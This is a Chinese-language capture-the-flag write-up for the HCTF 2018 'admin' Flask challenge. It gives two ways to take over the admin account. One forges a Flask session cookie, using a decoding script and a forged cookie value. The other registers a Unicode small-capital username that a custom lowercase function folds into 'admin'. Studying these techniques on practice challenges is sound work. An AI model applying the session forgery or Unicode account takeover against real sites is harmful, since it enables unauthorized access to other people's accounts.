 # [HCTF 2018]admin
TAG:flasksession欺骗，unicode欺骗  
## 解题过程：
![20210108111301](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108111301.png)  
在注册页面可知存在admin账户：  
![20210108111343](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108111343.png)  
![20210108111353](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108111353.png)  
随意注册一个账户进行登陆，登陆后出现了几个页面  
![20210108111411](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108111411.png)  
```Index：```  
![20210108111821](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108111821.png)  
```Post:```  
![20210108111907](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108111907.png)  
```Change password:```   
![20210108111930](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108111930.png)  
在```change password```页面的源码中可以发现源码地址  
![20210108112006](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108112006.png)  
源代码： https://github.com/woadsl1234/hctf_flask/  
![20210108112026](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108112026.png)  
进行代码审计，获得以下信息：  
1. flask  
![20210108112055](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108112055.png)  
2. secret_key  
![20210108112113](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108112113.png)  
3. 拥有admin_session可获得flag    
![20210108112136](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108112136.png)  
4. 隐患函数strlower()  
![20210108112205](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108112205.png)
  
### 解法1：flask session欺骗  
解密flask session脚本：  
```
#!/usr/bin/env python3
import sys
import zlib
from base64 import b64decode
from flask.sessions import session_json_serializer
from itsdangerous import base64_decode
def decryption(payload):
    payload, sig = payload.rsplit(b'.', 1)
    payload, timestamp = payload.rsplit(b'.', 1)
decompress = False
    if payload.startswith(b'.'):
        payload = payload[1:]
        decompress = True
try:
        payload = base64_decode(payload)
    except Exception as e:
        raise Exception('Could not base64 decode the payload because of '
                         'an exception')
if decompress:
        try:
            payload = zlib.decompress(payload)
        except Exception as e:
            raise Exception('Could not zlib decompress the payload before '
                             'decoding the payload')
return session_json_serializer.loads(payload)
if __name__ == '__main__':
    print(decryption(sys.argv[1].encode()))
```
  
加密flask session脚本：https://github.com/noraj/flask-session-cookie-manager  
1.随意注册一个账户并登陆，获取cookie  
![20210108112506](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108112506.png)  
2.使用脚本解密，将name改为admin，替换原cookie  
![20210108112529](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108112529.png)  
```
{'_fresh': True, '_id': b'640bdeac45f7ddb2205c182ba41de0f58b1cf7610890a8146380e9a4c37c66980bad9dddea0e781563b7593ff7e7451a45cf6d7f655903f853f87522cb702dbf', 'csrf_token': b'f5f2e566637accb5a15abdfa44cfa9704033b865', 'image': b'nx36', 'name': 'test', 'user_id': '10'}
-->
{'_fresh': True, '_id': b'640bdeac45f7ddb2205c182ba41de0f58b1cf7610890a8146380e9a4c37c66980bad9dddea0e781563b7593ff7e7451a45cf6d7f655903f853f87522cb702dbf', 'csrf_token': b'f5f2e566637accb5a15abdfa44cfa9704033b865', 'image': b'nx36', 'name': 'admin', 'user_id': '10'}
```
![20210108112557](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108112557.png)  
新的cookiesession:  
```
.eJw9kMGOgjAQhl9l07MHrHAx8aApEk1mCKSVtBeDiNBhyyaowcX47tu4ied_5vtm_ic7Xob62rLlbbjXM3a0Z7Z8sq8TWzKkbNQu_9YFBFjohUlyC7QbsYBHKvZWy-xhEjUaUqGmLRmqOMh1mMpNm4o4QIIQEhVpmRNMZ0LSUSo2VhdZ5FmdKeLRyCoEqTjw3QJlNxnnPbIKUG5bFAfPNB1yzVGqCAS6VKjJUONnd7_a74DYd9rpFXvNWHUdLsfbT1f3nxcMHRw4Nfdq7k9oPchiET-w2FqTGK_Iybg4wmkdgIBJU8MxW71x1pVN_SGd-mbC5j_pS-cDVp6d7dmM3a_18O6NzQP2-gN6kGwg.XlCyMQ.wh72jp_Zz5qFgW6YZP0hAVl8ZR4
```  
3.刷新后获得flag  
![20210108112711](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108112711.png)  
参考：[Python Web之flask session&格式化字符串漏洞](https://xz.aliyun.com/t/3569)  
### 解法2：unicode欺骗  
在处理用户输入的账户名时，使用了自定义的```strlower()```而不是python自带的```lower()```  
![20210108112844](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108112844.png)  
简单的测试一下这个函数，当使用unicode编码输入文字时，会产生unicode欺骗漏洞 
```
ᴬᴰᴹᴵᴺ -> ADMIN -> admin
```
1. 注册一个名为```ᴬᴰᴹᴵᴺ```的账户  
![20210108113006](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108113006.png)  
2. 修改密码  
![20210108113030](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108113030.png)  
3. 用修改后的密码登陆admin账户获得flag  
![20210108113050](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108113050.png)  